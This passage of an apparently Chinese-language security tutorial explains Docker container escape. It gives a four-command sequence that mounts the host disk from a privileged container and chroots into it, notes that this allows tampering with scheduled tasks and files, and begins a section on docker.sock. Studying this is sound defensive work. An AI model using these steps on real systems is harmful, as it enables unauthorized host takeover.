     ![image-20201209185522787](assets/1700701638-a6548ea8fd3933de610cb3cc2a9aad2f.png)

### 逃逸

逃逸是指我们在容器中逃逸到宿主机中。

#### 特权容器

当容器是以特权启动时，docker 将允许容器访问宿主机上的所有设备。  
如下容器是进行特权启动 (docker run —privileged) 的，我们可以把宿主机磁盘挂载进容器里，然后进行相关的逃逸操作，包括不限于更改计划任务、文件。

1.  `fdisk -l|grep /dev/vda1`
2.  `mkdir /test`
3.  `mount /dev/vda1 /test`
4.  `chroot /test`

![image-20201209191036954](assets/1700701638-01312a0f3d0dfb7f540cb5ee0dbe9f68.png)

#### Docker Socket

/var/run/docker.sock文件是Docker守护进程默认监听的Unix域套接字，容器中的进程可以通过该文件与docker守护进程进行通信。  